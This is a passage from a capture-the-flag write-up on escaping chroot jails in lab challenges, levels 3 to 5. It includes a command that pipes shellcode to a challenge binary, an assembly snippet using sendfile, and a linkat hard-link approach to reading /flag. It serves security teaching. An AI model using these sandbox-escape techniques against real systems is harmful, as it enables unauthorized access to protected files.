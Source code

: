 We can pass this shellcode to the challenge.

```
~$ /challenge/babyjail_level3 / < /home/hacker/shellcode.bin
```

Note that `/` is our `argv[1]`, which we are using as reference in `openat`.

Since this directory is opened before `chroot()` is executed it won't be in the jail.



## level 4

> Escape a chroot sandbox using shellcode, but this time only using the following syscalls: "openat", "read", "write", "sendfile".

We could very well use the previous level's code but let's try something new.

The `sendfile` command is a combination of the `read` and `write` system calls. It's also more efficient as it does not require data to be transferred to and from [user space](https://en.wikipedia.org/wiki/User\_space\_and\_kernel\_space).

It takes the following arguments:

```c
ssize_t sendfile(int out_fd, int in_fd, off_t *_offset, size_t _count);
```

In our case the `out_fd` will be `1` for STDOUT.

```armasm
# Sendfile syscall
mov rdi, 1
mov rsi, rax
mov rdx, 0
mov r10, 1000
mov rax, 0x28
syscall
```

Replace the `read` and `write` syscalls with the above code.



## level 5

> Escape a chroot sandbox using shellcode, but this time only using the following syscalls: "linkat", "open", "read", "write", "sendfile"

We can no longer use `openat`, but now we are allowed to use `linkat`.

It takes five arguments.

```c
int linkat(int olddirfd, const char *oldpath, int newdirfd, const char *newpath, int flags);
```

Using `linkat` we can create a [hard link](https://en.wikipedia.org/wiki/Hard\_link) in `/tmp/jail/` that points to the `/flag` file in root `/` directory.
